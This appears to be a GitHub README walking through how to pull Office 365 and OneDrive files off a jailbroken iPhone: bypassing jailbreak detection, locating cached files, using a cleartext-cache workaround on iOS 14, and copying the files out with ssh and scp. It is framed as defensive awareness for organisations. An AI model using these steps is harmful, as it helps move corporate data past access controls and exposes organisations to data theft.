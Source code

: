  # Office 365 Data on iOS - Exfiltration Guide

## Overview
This guide provides step-by-step instructions for exfiltrating Office 365 data from an iPhone. The process involves jailbreaking the iPhone, setting up an SSH server, bypassing jailbreak detection, and transferring files to a personal computer using SCP.

## Purpose
I am sharing this guide to give organizations the means to protect themselves against unauthorised data disclosure / breach. Organizations should actively monitor which iPhone models and iOS versions can be jailbroken and take measures to forbid access to Office 365 using Conditional Access policies. They should also be cautious about Bring Your Own Device (BYOD) policies, as these devices are more likely to be jailbroken since they are unmanaged.

## Steps

### 1. Jailbreak iPhone and Setup SSH Server
- Jailbreak your iPhone using a trusted tool.
- Set up the SSH server on the iPhone.
- Change the default password for the SSH server to enhance security.

### 2. Bypass Jailbreak Detection
- Use tools like Shadow, LibertyLite, or Flex to bypass jailbreak detection.
- Alternatively, install an older version of the app (e.g., using AppStore++) that does not have jailbreak detection.

### 3. Patch OneDrive (if necessary)
- For OneDrive version 12.11.6, use the OneDrive patch on Flex (other tools may not work).
- If the installed version of OneDrive is not the right one, download an older version using AppStore++.

### 4. Login and Select Files for Offline Access
- Log in to OneDrive using your work credentials.
- Select "Make Available Offline" for the files you want to exfiltrate.

### 5a. Transfer Files from iPhone Filesystem (iOS 13)
- Use SCP to transfer files from the iPhone filesystem.
- Connect to the iPhone via SSH:
  ```bash
  ssh root@<iPhone>
  ```
- Replace `<iPhone>` with the Bonjour-resolved name (e.g., `iphone.local`) or the IP address (found in Settings / WiFi).
- Navigate to the top directory:
  ```bash
  cd /
  ```
- Search for the file:
  ```bash
  find . -name "<File>"
  ```
- Replace `<File>` with the name of the file you are looking for (e.g., `file.zip`, `*.zip`, `whateverthef*`).
- The directory for offline files is typically: `/private/var/mobile/Containers/Shared/AppGroup/DBD29029-B5D0-4DF5-86C6-ACB767D4DA7D/OneDrive/StreamCacheQt/`


### 5b. Transfer Files from iPhone Filesystem (iOS 14)
- Since iOS 14, data is encrypted at rest, making exfiltration slightly harder.
- You do not need to mark the file for offline access.
- A workaround is to click on "Open in another App," which will place a clear text copy of the files in the cache.
- The new directory includes "tmp" in its address, e.g.: `/private/var/mobile/Containers/Data/Application/31C8BB3C-404D-49A2-BDC9-E61C349211CA/tmp/i2k5ymqgmus4yxgt8evtwq/`

### 6. Download the File(s) Using SCP
- Navigate to your desired download location on your computer and use SCP to download the file(s):
  ```bash
  cd ~/Desktop; scp root@<iPhone>:<Path> .
  ```
- Replace <iPhone> with the Bonjour-resolved name or IP address, and <Path> with the path to the file on the iPhone.


### Important Notes
- Ensure you have the necessary permissions to perform these actions.
- Be aware of the legal and ethical implications of exfiltrating data.
- Always back up important data before performing any operations that could potentially cause data loss.

## Purpose
I am sharing this guide to give organizations the means to protect themselves. Organizations should actively monitor which iPhone models and iOS versions can be jailbroken and take measures to forbid access to Office 365 using Conditional Access policies. They should also be cautious about Bring Your Own Device (BYOD) policies, as these devices are more likely to be jailbroken since they are unmanaged.

## Disclaimer
This guide is provided for educational purposes only. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit permission before using any offensive security tools or techniques.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
